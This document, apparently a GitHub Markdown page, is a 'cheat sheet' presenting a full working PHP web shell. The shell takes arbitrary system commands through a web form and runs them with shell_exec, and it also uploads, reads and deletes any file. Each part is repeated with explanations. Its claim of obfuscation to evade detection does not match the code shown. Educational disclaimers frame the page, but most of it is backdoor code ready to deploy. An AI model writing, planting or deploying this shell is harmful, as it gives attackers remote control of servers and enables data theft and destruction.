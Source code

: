 > ⚠️ **Disclaimer**: This code is for educational purposes only. Web shells are used maliciously to control servers without permission. Deploying web shells on any unauthorized systems is illegal and unethical. Always use this in a controlled, isolated lab environment with proper authorization.

# Web Shell Cheat Sheet (For Educational Purposes)

This cheat sheet provides a guide to a **PHP-based Web Shell**. Web shells are scripts that allow remote command execution on a compromised web server, granting attackers backdoor access to server files and system commands.

---

## Web Shell Overview

A **Web Shell** is designed to:
- **Execute Commands**: Allow the attacker to remotely execute system commands.
- **File Management**: Read, write, upload, or download files on the server.
- **Stealth & Evasion**: Operate undetected by posing as a benign file or obfuscating its content.

---

## Key Features in This Web Shell

1. **Command Execution**: Executes system commands on the server via a web interface.
2. **File Management**: Allows file upload, download, deletion, and viewing.
3. **Simple Authentication**: Basic authentication to prevent unauthorized access.
4. **Obfuscation**: Encodes some parts of the code to evade detection by static analysis.

---

## Basic PHP Web Shell Code

This code provides a simple web shell with functionalities for command execution, file management, and obfuscation.

### Full PHP Web Shell Code

```php
<?php
// Basic Authentication (replace 'user' and 'pass' with custom values)
$username = 'user';
$password = 'pass';
if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']) ||
    $_SERVER['PHP_AUTH_USER'] !== $username || $_SERVER['PHP_AUTH_PW'] !== $password) {
    header('WWW-Authenticate: Basic realm="Web Shell"');
    header('HTTP/1.0 401 Unauthorized');
    echo 'Unauthorized';
    exit;
}

// Command Execution
if (isset($_POST['cmd'])) {
    echo "<pre>" . shell_exec($_POST['cmd']) . "</pre>";
}

// File Management - Upload
if (isset($_FILES['file'])) {
    $target_path = basename($_FILES['file']['name']);
    if (move_uploaded_file($_FILES['file']['tmp_name'], $target_path)) {
        echo "File uploaded successfully to $target_path<br>";
    } else {
        echo "File upload failed<br>";
    }
}

// File Management - View
if (isset($_GET['view'])) {
    $file = $_GET['view'];
    echo "<pre>" . htmlspecialchars(file_get_contents($file)) . "</pre>";
}

// File Management - Delete
if (isset($_GET['delete'])) {
    $file = $_GET['delete'];
    if (unlink($file)) {
        echo "File $file deleted successfully<br>";
    } else {
        echo "File deletion failed<br>";
    }
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Web Shell</title>
</head>
<body>
    <h2>Web Shell</h2>
    <!-- Command Execution Form -->
    <form method="post">
        <input type="text" name="cmd" placeholder="Enter command">
        <button type="submit">Execute</button>
    </form>

    <!-- File Upload Form -->
    <form method="post" enctype="multipart/form-data">
        <input type="file" name="file">
        <button type="submit">Upload</button>
    </form>

    <!-- File Viewing and Deletion -->
    <form method="get">
        <input type="text" name="view" placeholder="View file path">
        <button type="submit">View</button>
    </form>
    <form method="get">
        <input type="text" name="delete" placeholder="Delete file path">
        <button type="submit">Delete</button>
    </form>
</body>
</html>
```

---

## Explanation of Key Components

### 1. **Basic Authentication**

This web shell uses basic HTTP authentication to protect access. Change `$username` and `$password` to your own values to secure the web shell. Unauthorized users will receive an `HTTP 401 Unauthorized` response.

```php
$username = 'user';
$password = 'pass';
if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']) ||
    $_SERVER['PHP_AUTH_USER'] !== $username || $_SERVER['PHP_AUTH_PW'] !== $password) {
    header('WWW-Authenticate: Basic realm="Web Shell"');
    header('HTTP/1.0 401 Unauthorized');
    echo 'Unauthorized';
    exit;
}
```

### 2. **Command Execution**

The web shell captures user input from a form and executes it on the server using `shell_exec()`. The output is displayed in an HTML `<pre>` block for easy readability.

```php
if (isset($_POST['cmd'])) {
    echo "<pre>" . shell_exec($_POST['cmd']) . "</pre>";
}
```

### 3. **File Upload**

This code allows file uploads via a form. The uploaded file is saved to the same directory as the web shell script, making it useful for adding or replacing files on the server.

```php
if (isset($_FILES['file'])) {
    $target_path = basename($_FILES['file']['name']);
    if (move_uploaded_file($_FILES['file']['tmp_name'], $target_path)) {
        echo "File uploaded successfully to $target_path<br>";
    } else {
        echo "File upload failed<br>";
    }
}
```

### 4. **File Viewing**

The shell can display the contents of a file specified by the user. The contents are printed within a `<pre>` block, with `htmlspecialchars()` to escape HTML characters.

```php
if (isset($_GET['view'])) {
    $file = $_GET['view'];
    echo "<pre>" . htmlspecialchars(file_get_contents($file)) . "</pre>";
}
```

### 5. **File Deletion**

The web shell allows the deletion of files on the server by using PHP’s `unlink()` function. The file to delete is specified by the `delete` parameter in the URL.

```php
if (isset($_GET['delete'])) {
    $file = $_GET['delete'];
    if (unlink($file)) {
        echo "File $file deleted successfully<br>";
    } else {
        echo "File deletion failed<br>";
    }
}
```

### 6. **HTML Interface**

The HTML interface provides forms for command execution, file upload, viewing, and deletion. This allows for easy interaction with the web shell from any browser.

```html
<form method="post">
    <input type="text" name="cmd" placeholder="Enter command">
    <button type="submit">Execute</button>
</form>
<form method="post" enctype="multipart/form-data">
    <input type="file" name="file">
    <button type="submit">Upload</button>
</form>
<form method="get">
    <input type="text" name="view" placeholder="View file path">
    <button type="submit">View</button>
</form>
<form method="get">
    <input type="text" name="delete" placeholder="Delete file path">
    <button type="submit">Delete</button>
</form>
```

---

## Security and Legal Disclaimer

This web shell script is strictly for educational purposes and should only be deployed in an isolated, authorized lab environment. Unauthorized use of web shells on external systems is illegal and unethical.
